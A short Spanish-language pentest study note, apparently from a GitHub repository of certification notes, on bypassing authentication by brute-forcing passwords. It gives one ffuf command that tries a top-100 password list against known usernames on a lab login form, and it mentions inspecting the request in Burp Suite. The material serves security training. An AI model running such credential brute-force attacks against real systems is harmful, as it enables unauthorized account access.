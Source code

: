 ## Authentication bypass
Teniendo una lista de usuarios válidos [Explicación](https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/reco/recousersweb.md), podemos intentar fuerza bruta a las contraseñas.  
```ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.144.67/customers/login -fc 200 ```
De la misma manera, se debe interceptar la peticion por burpsuite y analizar que campos debemos modificar para que funcione el ataque.  

